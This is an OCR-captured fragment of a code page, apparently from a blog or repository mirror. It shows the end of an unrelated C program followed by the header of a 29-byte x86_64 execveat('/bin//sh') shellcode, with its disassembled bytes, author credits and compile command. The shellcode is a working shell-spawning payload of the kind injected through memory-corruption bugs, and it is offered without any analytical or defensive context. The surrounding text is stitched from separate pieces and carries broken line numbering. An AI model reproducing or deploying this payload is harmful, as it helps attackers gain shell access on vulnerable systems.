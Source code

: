       138.     }
    
      139.     if ((size_t)nbytes < data_size) {
    
      140.         fprintf(stderr, "short write\n");
    
      141.         return EXIT_FAILURE;
    
      142.     }
    
      143.   144.     return EXIT_SUCCESS;
    
      145. }
    
    
    

![](https://gitee.com/fuli009/images/raw/master/public/20230714175320.png)

    
          1. /** x86_64 execveat("/bin//sh") 29 bytes shellcode
    
      2.   3. --[ AUTHORS
    
      4.     * ZadYree
    
      5.     * vaelio
    
      6.     * DaShrooms
    
      7.   8. ~ Armature Technologies R&D
    
      9.   10. --[ asm
    
      11. 6a 42                   push   0x42
    
      12. 58                      pop    rax
    
      13. fe c4                   inc    ah
    
      14. 48 99                   cqo
    
      15. 52                      push   rdx
    
      16. 48 bf 2f 62 69 6e 2f    movabs rdi, 0x68732f2f6e69622f
    
      17. 2f 73 68
    
      18. 57                      push   rdi
    
      19. 54                      push   rsp
    
      20. 5e                      pop    rsi
    
      21. 49 89 d0                mov    r8, rdx
    
      22. 49 89 d2                mov    r10, rdx
    
      23. 0f 05                   syscall
    
      24.   25. --[ COMPILE
    
      26. gcc execveat.c -o execveat # NX-compatible :)
    
      27.   28. **/
    